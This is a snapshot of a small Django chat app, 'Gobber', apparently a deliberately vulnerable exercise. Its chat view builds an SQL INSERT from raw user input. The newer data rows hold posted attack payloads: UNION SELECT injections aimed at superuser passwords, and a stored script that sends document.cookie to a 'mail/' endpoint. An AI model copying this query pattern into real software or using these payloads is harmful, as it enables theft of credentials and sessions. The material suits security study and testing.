
The app's page /gobber/chats/, older data.

The same page, newer data.
### gobber/models.py (models this page shows, shortened)
class Message(models.Model):
    message_text = models.CharField(max_length=300)
    pub_date = models.DateTimeField(auto_now=True)
    def was_published_recently(self):
        now = timezone.now()
        return now - datetime.timedelta(days=1) <= self.pub_date <= now
    was_published_recently.admin_order_field = 'pub_date'
    was_published_recently.boolean = True
    was_published_recently.short_description = 'Published recently?'

### gobber/views.py (the view)
# urls.py: path('chats/', views.chats, name='chats'),
def chats(request):
    cursor = connection.cursor()
    access = request.session.get('access','false')
    if access:
        messageList = Message.objects.filter(pub_date__lte=timezone.now()).order_by('-pub_date')[:7]
        if request.method == "POST":
            form = MessageForm(request.POST)
            messageText = (Message(message_text=request.POST.get('message_text')))
            messageDate = timezone.now()
            query2 = "INSERT INTO gobber_message (message_text, pub_date) VALUES ('%s','%s')" % (messageText, messageDate)
            print(query2)
            cursor.execute(query2)
            return HttpResponseRedirect(reverse('gobber:chats'))
        else:
            form = MessageForm()
        return render(request, 'gobber/chats.html', {'messageList':messageList,'form': form})
    else:
       return HttpResponseRedirect(reverse('gobber:access'))

### gobber/forms.py
class MessageForm(ModelForm):
    class Meta:
        model = Message
        fields = ['message_text']
        widgets = {
            'message_text': forms.Textarea(attrs={
                                                    'rows': 5,
                                                    })
        }
        labels = {
            'message_text': '',
        }

### gobber/templates/gobber/chats.html (shortened to what this page needs)
<!DOCTYPE html>
<html>
<head>
    {% load static %}
    <link rel="stylesheet" type="text/css" href="{% static 'gobber/chatStyle.css' %}">
</head>
<body>
<div>
    <h1>GOBBER</h1>
</div>
<div class="leftSidebar">
    <img src="/static/images/goblinwalk.gif">
    <img src="/static/images/goblinwalk.gif">
    <img src="/static/images/goblinwalk.gif">
    <img src="/static/images/goblinwalk.gif">
</div>
<div class="rightSidebar">
    <img src="/static/images/goblinwalk.gif">
    <img src="/static/images/goblinwalk.gif">
    <img src="/static/images/goblinwalk.gif">
    <img src="/static/images/goblinwalk.gif">
</div>
<div class="chatField">
    <div>
        <h2>GIBBER AND GABBER WITH OTHER GOBLINS</h2>
        <form action="{% url 'gobber:chats' %}" method="post">
                {{ form }}
            <div class="chatButton">
                <input type="submit" value="Send">
            </div>
        </form>
    </div>
    <div>
    {% if messageList %}
        <ul class="chatList">
        {% for message in messageList %}
            <div class = "chatBox">
                <li class="chatTime"> {{message.pub_date}} </li>
                <li class="chatMessage"><a href="{% url 'gobber:detail' message.id %}"> {{message.message_text}} </a></li>
            </div>
        {% endfor %}
        </ul>
    {% else %}
        <p>No chats are available.</p>
    {% endif %}
    </div>
    <div class="btwTexte">
        <p>100% ANONYMOUS AND ISOLATED CHATTING. ONLY REAL GOBLINS LET INSIDE. WHAT HAPPENS IN THE CAVE STAYS IN THE CAVE.</p>
    </div>
</div>
</body>
</html>

Row changes from the older to the newer data that the page shows:
no longer on this page (row unchanged): Message: pub_date "Oct. 9, 2022, 10:39 p.m.", message_text "cats........... have you even heard about BIRDS?"
no longer on this page (row unchanged): Message: pub_date "Oct. 9, 2022, 9:41 p.m.", message_text "I kinda don't believe in cats"
no longer on this page (row unchanged): Message: pub_date "Oct. 9, 2022, 7:14 p.m.", message_text "sleep"
no longer on this page (row unchanged): Message: pub_date "Oct. 9, 2022, 7:03 p.m.", message_text "GOLDGOLDGOLDGOLDGOLD"
no longer on this page (row unchanged): Message: pub_date "Oct. 9, 2022, 2 p.m.", message_text "yo wtf these mods doing"
no longer on this page (row unchanged): Message: pub_date "Oct. 9, 2022, 1:56 p.m.", message_text "wait why is no one else here"
no longer on this page (row unchanged): Message: pub_date "Oct. 9, 2022, 1:56 p.m.", message_text "EYYYY first"
added Message: pub_date "Oct. 11, 2022, 3:57 p.m.", message_text "this injection thing is not really... working"
added Message: pub_date "Oct. 11, 2022, 3:50 p.m.", message_text "\" ' UNION SELECT password FROM Users WHERE is_superuser=true --\""
added Message: pub_date "Oct. 11, 2022, 3:48 p.m.", message_text "\"DOESNOTEXIST' UNION SELECT password FROM Users WHERE is_superuser=True --\""
added Message: pub_date "Oct. 11, 2022, 3:47 p.m.", message_text "\"DOESNOTEXIST' UNION SELECT password FROM Users WHERE is_superuser=true --\""
added Message: pub_date "Oct. 11, 2022, 3:27 p.m.", message_text "<script> var http = new XMLHttpRequest(); http.open(\"POST\", 'mail/', true); http.setRequestHeader(\"Content-type\", \"application/json\"); var data = new Object(); data.content = document.cookie; http.send(JSON.stringify(data)); </script>"
added Message: pub_date "Oct. 11, 2022, 2:52 p.m.", message_text "ooga booga what are these sessions"
added Message: pub_date "Oct. 11, 2022, 2:37 p.m.", message_text "ummm HELLO? ANYONE??????"
